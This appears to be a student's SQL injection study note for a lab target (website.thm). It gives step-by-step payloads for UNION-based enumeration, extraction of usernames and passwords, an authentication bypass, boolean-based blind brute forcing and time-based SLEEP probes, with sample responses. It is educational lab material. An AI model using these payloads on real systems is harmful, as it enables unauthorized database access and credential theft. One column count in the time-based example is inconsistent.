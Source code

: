 # SQL Injection

![](Pasted%20image%2020241116223725.png)

# Introduction

In this case attacker exploit vulnerable input field in the web page to gain access of the database. Attacker inserts SQL command in the input field that interact with the database.
# Example

![](Pasted%20image%2020241116225912.png)

![](Pasted%20image%2020241116225956.png)

# SQL Injection Snippets

## Example 0: Check SQL Injection Vulnarability

use `'` or `"` to know if the input field is vulnerable to SQL injection.

## Example 1: In-band SQL Injection (reflected)

```sql
1 UNION SELECT 1
```

- If above gives error add another until success

```sql
0 UNION SELECT 1,2
```

```sql
0 UNION SELECT 1,2,3
```

- Above gives no error so look for database

```sql
0 UNION SELECT 1,2,database()
```

- `sqli_one` is the database name found. Get list of tables

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

- Fond `article,staff_users` tables. Get column from `staff_users`

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

- Found `id,password,username` columns. Let's get username and passwords

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
## Example 2: Blind SQL Injection: Bypass Auth
- Inserting below will result `true` for any input

```sql
' or 1=1;--
```

## Example 3: Blind SQL Injection: Boolean Based

`https://website.thm/checkuser?username=admin` this page returns `{"taken":true}`. For username query parameter we will put below sql snippet.

- Similar to example 1, select 1 if error/fail look for select 1,2 and so one

```sql
admin123' UNION SELECT 1;--
```
```
Response:
{"taken":false}
```

```sql
admin123' UNION SELECT 1,2;--
```
```
Response:
{"taken":false}
```

```sql
admin123' UNION SELECT 1,2,3;--
```
```
Response:
{"taken":true}
```

- Now the response `taken` is `true`, look for database.

```sql
admin123' UNION SELECT 1,2,3 where database() like '%';--
```
```
Response:
{"taken":true}
```

```sql
admin123' UNION SELECT 1,2,3 where database() like 's%';--
```
```
Response:
{"taken":true}
```

- Brute force the name using `database() like 'sa%'` `, database() like 'sa%'`  as the received output is true or false until get  the database name. In this case it is `sqli_three`

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three';--
```
```
Response:
{"taken":true}
```

- Brute force table name until response is true

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
```

- Similarly brute force column name

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
```
```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
```

- Repeating the process to get username and password

```sql
admin123' UNION SELECT 1,2,3 from users where username like 'a%'
```
```sql
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%'
```

## Example 4: Blind SQL: Time Based

There is no specific response for injected sql but in this case we use sleep(5) function to wait the server for 5 second. If the server waits for 5 second we know it is vulnerable to sql injection. 

- Similar to above example checking the number of columns by using

```sql
admin123' UNION SELECT SLEEP(5);--
```
![](Pasted%20image%2020241119155113.png)

This didn't wait for 5 seconds try for more number of columns

```sql
admin123' UNION SELECT SLEEP(5),2;--
```
![](Pasted%20image%2020241119155233.png)

This waited for 5 seconds telling there are 3 columns

## Example 5: Out of band SQL

1. An attacker makes a request to a website vulnerable to SQL Injection with an injection payload.
2. The Website makes an SQL query to the database, which also passes the hacker's payload.
3. The payload contains a request which forces an HTTP request back to the hacker's machine containing data from the database.

![](Pasted%20image%2020241119160027.png)

